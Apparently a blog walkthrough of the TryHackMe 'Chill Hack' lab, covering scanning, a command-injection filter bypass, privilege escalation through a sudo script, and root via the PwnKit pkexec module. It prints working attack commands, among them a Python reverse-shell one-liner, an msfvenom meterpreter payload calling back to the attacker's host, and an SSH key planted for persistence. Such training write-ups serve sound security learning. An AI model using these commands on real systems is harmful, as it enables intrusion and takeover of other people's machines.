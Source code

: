 ```yaml
---
layout: post
title: Walkthrough - Chill Hack
published: true
---
```


Chill the Hack out of the Machine.

[https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

* * *

## Notes

- nmap scan

```shell
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- ftp allowed anonymous login and we can get a note.

```shell
─(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chill-Hack]
└─$ cat note.txt          
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

- gobuster scan we find ``/secret/``
- ``/secret/`` lets us execute commands on the machine
- but as the note in the FTP said, it is filtering some strings. maybe we can bypass this some way.

- ``uname -a`` ``Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux``
- tried wget a php rev shell and it uploads but cant tell where...
- looks like we can use find so we can setup netcat and reverse shell by using ``find /usr/bin/python3 -exec {} -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.127.225",6669));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;``

- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``

- sudo -l give us the following:

```shell
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

- .helpline.sh

```sh
Welcome to helpdesk. Feel free to talk to anyone at any time!

!/bin/sh

Thank you for your precious time!
$ cat ./.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

- so user apaar can run this script as sudo
- ``sudo -u apaar /home/apaar/.helpline.sh``
- then ``/bin/bash`` to open up a terminal as apaar

- generate ssh key and add it to the authorized key file in apaars .ssh to open up ssh connection for better terminal
- uname -a we have x86 linux so generate meterpreter.elf
- ``msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f elf > meterpreter.elf`` and wget to target and open up ``msfconsole`` and multi-handler listener

* * * 

## What is the user flag?

- upgrade terminal and cat local.txt for user flag

* * * 

## What is the root flag?

- ``linux/local/cve_2021_4034_pwnkit_lpe_pkexec`` will give us root
- cat proof.txt in /root/

* * * 

